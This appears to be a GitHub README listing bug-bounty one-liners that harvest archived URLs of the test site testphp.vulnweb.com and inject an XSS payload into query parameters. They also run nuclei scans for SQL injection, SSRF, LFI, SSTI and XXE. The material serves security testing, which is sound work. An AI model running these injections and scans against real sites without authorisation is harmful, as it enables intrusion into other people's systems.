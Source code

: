 # SIMPLE ONE LINER
One Liner for Bug Bounty Hunting by `RootBakar`

### Command 1:
```bash
echo "testphp.vulnweb.com" | waybackurls | urldedupe -qs -s > waybck_results.txt
```
```bash
echo "testphp.vulnweb.com" | gau | urldedupe -qs -s > gau_results.txt
```
```bash
cat waybck_results.txt gau_results.txt | anew combine.txt
```

### Command 2: (Combine with RB XSS Validator)
```bash
cat combine.txt
```
### Result:
![image](https://github.com/user-attachments/assets/86beb41e-5c15-4a49-a976-fd216f75de1d)

### Command 3:
```bash
echo "testphp.vulnweb.com" | waybackurls | urldedupe -s -qs -ne | gf xss | qsreplace '"><img src=x onerror=alert(1)>' | freq | egrep -v 'Not'
```
### Result:
<img width="1440" alt="image" src="https://github.com/user-attachments/assets/1c80107a-708f-461e-8af7-44f323d6082d">

### Command 4:
```bash
echo "testphp.vulnweb.com" | gau --fc 200 | urldedupe -s -qs | gf lfi redirect sqli-error sqli ssrf ssti xss xxe | qsreplace FUZZ | grep FUZZ | nuclei -silent -t ~/nuclei-templates/dast/vulnerabilities -dast -silent
```
### Result:
<img width="1440" alt="image" src="https://github.com/user-attachments/assets/3ec661fb-63f3-4d75-a3e3-c163ac96c506">

### Command 5:
```bash
echo "testphp.vulnweb.com" | gau --fc 200 | urldedupe -s -qs -ne | gf xss | qsreplace '"><img src=x onerror=alert(1)>' | freq | egrep -v 'Not'
```
### Result:
<img width="1440" alt="image" src="https://github.com/user-attachments/assets/40e8eb4a-8360-4c3f-9421-ceece6e0a5ba">

